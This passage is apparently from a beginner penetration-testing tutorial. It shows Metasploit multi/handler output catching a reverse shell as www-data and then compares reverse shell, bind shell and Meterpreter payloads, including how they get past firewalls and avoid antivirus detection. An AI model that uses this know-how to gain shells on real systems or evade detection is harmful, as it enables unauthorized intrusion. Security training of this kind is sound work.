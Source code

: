 **Multi/handler output:**
```
[*] Started reverse TCP handler on 192.168.1.50:4444 
[*] Starting the payload handler...
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Command shell session 1 opened (192.168.1.50:4444 -> 192.168.1.200:54321) at 2024-01-15 10:50:23 -0500

msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type               Information  Connection
  --  ----  ----               -----------  ----------
  1         shell linux/x86                 192.168.1.50:4444 -> 192.168.1.200:54321 (192.168.1.200)

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

Now that we understand how to set up listeners and catch shells, let's talk about the different types of payloads you can use. Choosing the right payload for your situation can make the difference between success and failure! 🎯

## Understanding Payload Types 🎯

When exploiting, you'll encounter different payload types:

**Reverse Shell**: Target connects back to you
- ✅ Pros: Bypasses most firewalls
- ❌ Cons: Requires your IP to be reachable

**Bind Shell**: Opens a port on the target
- ✅ Pros: No need for target to reach you
- ❌ Cons: Often blocked by firewalls

**Meterpreter**: Advanced payload with many features
- ✅ Pros: Encrypted, feature-rich
- ❌ Cons: More likely to be detected by AV

> **🤓 What is Meterpreter?** Meterpreter is like the "luxury model" of shells! While a basic shell gives you a simple command line, Meterpreter is like having a full toolkit with advanced features. It can take screenshots, record keystrokes, pivot to other systems, and much more. Think of it as the difference between a basic walkie-talkie and a high-tech smartphone!

> **🤓 What is Antivirus (AV)?** Antivirus software is like a security guard for your computer. It watches for suspicious activity and known malicious programs. Advanced payloads like Meterpreter are more likely to be recognized and blocked by these digital security guards, which is why sometimes simpler is better for staying undetected!
